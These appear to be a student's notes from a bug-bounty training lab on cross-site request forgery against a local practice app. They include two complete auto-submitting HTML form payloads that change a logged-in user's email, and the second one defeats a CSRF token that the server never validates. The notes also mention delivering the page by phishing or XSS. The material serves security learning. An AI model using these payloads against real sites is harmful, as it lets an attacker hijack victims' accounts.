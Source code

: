 
***Trick unsuspecting users into performing an action on an application they are autheticated to***

 We can login with provided username and password
 After logging in we have the option of updating our Email
 There is no CSRF protection on this


Copy the HTML form element in which we put the new email that we want to update to
and make it an HTML doc by  adding required elements

We are going to load this form of somewhere else so add the pull path to form action property

Can remove extra div's that were inside of the form and unnecessary styling as well

```html
<html>
     <body>
           <form action="http://localhost/labs/csrf0x01.php" method="post">
                   
                        
             <input type="text" name="email" placeholder="Enter email"    value="csrf@csrf.com">
                    
             <button type="submit" class="btn btn-primary">Submit</button>
                    
         </form>
         
         <script>
         
         window.onload = function() {
         document.forms[0].submit();
         //there is only 1 from in this page so index 0 
         }
         
         </script>
         
	</body>
</html>

```


When we load this page there will only be the input and button and user will know it is probably a scam

So we add a script to auto submit

Now lets say he landed on our page from an XSS exploit or a phishing email

The form will auto-submit with the value of the email that we want

```sh
file:///home/jeetu855/TCM_PBB/bugbounty/OtherCommonVulns/CSRF/csrf1.html
```

Type that in browser to load our page for testing purpose


![[csrf1.png]]

And the targets email automatically updates to our desired email


---


### CSRF Token Bypass

We again have the functionality to update emails

We we load a page, we get a token and if we dont submit that token, the request will be blocked

So what we did before was submit the form without CSRF token, it will be blocked

Check if the app is vulnerable to XSS. If it is, we can steal the CSRF token with XSS, inject that into our payload and change the email to our desired email

CSRF token easy to bypass if we have XSS

Sometimes the CSRF token is just there and the server dosent validate it on submission
or Sometimes the server just checks if the Token exists or not

Check appecexplained gitbbook

Can jeremy's CSRF token be valid for Jessamy as well and a lot of such cases

For this lab, in the same payload just add random CSRF token and check if the validates it or not

```html
<html>
     <body>
           <form action="http://localhost/labs/csrf0x02.php" method="post">
                   
                        
             <input type="text" name="email" placeholder="Enter email" value="csrf@csrf.com">
             <input type="text" name="csrf" id="csrf" value="Incursiowashere" hidden>
             <button type="submit" class="btn btn-primary">Submit</button>
                    
         </form>
         
         <script>
         
         window.onload = function() {
         document.forms[0].submit();
         //there is only 1 from in this page so index 0 
         }
         
         </script>
         
	</body>
</html>

```



![[csrf2.png]]


And we update the email because of no validation of CSRF token by the server